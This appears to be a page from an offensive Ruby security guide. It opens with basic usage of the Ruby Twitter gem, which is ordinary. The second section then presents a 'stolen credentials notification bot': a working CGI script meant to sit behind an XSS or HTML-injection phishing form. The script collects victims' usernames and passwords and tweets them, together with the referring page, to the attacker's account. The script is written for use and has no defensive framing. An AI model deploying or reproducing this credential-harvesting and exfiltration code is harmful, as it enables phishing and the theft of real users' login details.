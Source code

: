 # Twitter API

- To install twitter API
```
gem install twitter
```

## Basic Usage
```ruby
require 'twitter'
client = Twitter::REST::Client.new do |config|
        config.consumer_key        = "YOUR_CONSUMER_KEY"
        config.consumer_secret     = "YOUR_CONSUMER_SECRET"
        config.access_token        = "YOUR_ACCESS_TOKEN"
        config.access_token_secret = "YOUR_ACCESS_SECRET"
end


client.user("Rubyfu")                   # Fetch a user
client.update("@Rubyfu w00t! #Rubyfu")  # Tweet (as the authenticated user)
client.follow("Rubyfu")                 # Follow User (as the authenticated user)
client.followers("Rubyfu")              # Fetch followers of a user
client.followers                        # Fetch followers of current user 
client.status(649235138585366528)       # Fetch a particular Tweet by ID
client.direct_message_create("Rubyfu", "Hi, I'm KINGSABRI")    # Send direct message to a particular user
```
Now, tweet to @Rubyfu using above example.

## Building Stolen Credentials notification bot
We're exploiting an XSS/HTML injection vulnerability and tricking users to enter there Username and Password. The idea is, We'll make a [CGI script][1] that takes that stolen credentials then tweet these credentials to us as notification or log system
```ruby
#!/usr/bin/ruby -w                                                                 

require 'cgi'
require 'uri'
require 'twitter'

cgi  = CGI.new
puts cgi.header

user = CGI.escape cgi['user']
pass = CGI.escape cgi['pass']
time = Time.now.strftime("%D %T")

client = Twitter::REST::Client.new do |config|
        config.consumer_key        = "YOUR_CONSUMER_KEY"
        config.consumer_secret     = "YOUR_CONSUMER_SECRET"
        config.access_token        = "YOUR_ACCESS_TOKEN"
        config.access_token_secret = "YOUR_ACCESS_SECRET"
end
client.user("KINGSABRI")

if cgi.referer.nil? or cgi.referer.empty?
    # Twitter notification | WARNING! It's tweets, make sure your account is protected!!!
    client.update("[Info] No Refere!\n" + "#{CGI.unescape user}:#{CGI.unescape pass}")
else
    client.update("[Info] #{cgi.referer}\n #{CGI.unescape user}:#{CGI.unescape pass}")
end

puts ""
```






[1]: http://rubyfu.net/content/module_0x4__web_kungfu/index.html#cgi